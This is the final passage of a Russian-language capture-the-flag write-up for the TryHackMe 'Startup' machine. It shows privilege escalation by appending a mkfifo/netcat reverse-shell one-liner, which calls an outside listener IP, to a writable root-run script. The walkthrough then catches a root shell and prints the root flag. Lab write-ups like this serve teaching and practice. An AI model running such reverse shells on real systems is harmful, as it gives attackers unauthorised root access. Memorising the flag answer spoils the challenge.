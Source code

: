 ```
И мы здесь видем, скрипт который выполняет, что-то..Изменять его мы не можем, т.к прав не хватает. Но в конце еще есть непонятный скрипт print. sh, который лежит в каталоге /etc/

Давайте найдем его там
```
lennie@startup:~/scripts$ cd /etc/
lennie@startup:/etc$ ls -la | grep print.sh
-rwx------  1 lennie lennie    25 Nov 12  2020 print.sh
lennie@startup:/etc$ 
```
Мы можем заметить, что мы имеем права на чтение и запись этого файлика. Чтож давайте туда засунем реверс шеллку.

```
lennie@startup:/etc$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.48.143 8889 >/tmp/f' >> print.sh

┌──(root💀kali)-[/home/kali]
└─# nc -lvnp 8889
listening on [any] 8889 ...
connect to [10.8.48.143] from (UNKNOWN) [10.10.129.73] 38030
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# /bin/bash

ls
root.txt
cat root.txt
THM{f963aaa6a430f210222158ae15c3d76d}

```
Вот вообщем как-то так) Мы зашли за рута в итоге и смогли прочесть рутовский флаг. Сдаем и мы прошли всю машину) Ура))



## FAQ

:::info
**Есть вопросы? Задать их можно в комментарии к видеообзору на ютубе**

---
## 🌐 Socials | Соц Сети:
[![**YouTube Channel**](https://img.shields.io/badge/YouTube-%23FF0000.svg?logo=YouTube&logoColor=white)](https://youtube.com/@MrRedLik) 

[![**Instagram**](https://img.shields.io/badge/Instagram-%23E4405F.svg?logo=Instagram&logoColor=white)](https://instagram.com/andr1an0lv)

[**GitHub**](https://github.com/redl1k) 


###### tags: `WriteUp` `Pentest` `CTF` `tryhackme` 
